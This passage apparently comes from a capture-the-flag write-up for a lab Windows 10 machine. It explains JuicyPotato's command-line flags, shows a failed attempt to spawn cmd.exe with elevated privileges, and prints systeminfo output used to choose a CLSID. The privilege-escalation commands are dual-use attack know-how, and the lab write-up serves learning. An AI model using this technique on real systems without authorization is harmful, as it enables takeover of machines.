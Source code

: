 -l can be a port of our choice, -t determines what CreateProcess method to use, and -p is the program to be launched with the new privileges. Everything else is optional, I'm going to use -a to pass command line arguments to the program I want to launch and -c to specify a different CLSID (Class ID) than the default one because as we can see from this quick test the default option doesn't work:

```aaa
PS C:\users\destitute\downloads> ./juicy.exe -t * -p c:\windows\system32\cmd.exe -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

A list of CLSID for each Windows version is available on the [JuicyPotato repo](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) so first we check what OS we are running:

```aaa
PS C:\users\destitute\downloads> systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          04/09/2019, 14:58:35
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,275 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,352 MB
Virtual Memory: In Use:    847 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.116
                                 [02]: fe80::a054:9f1:c6f7:d4e3
                                 [03]: dead:beef::24cc:92e3:8b1e:bd4d
                                 [04]: dead:beef::a054:9f1:c6f7:d4e3
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
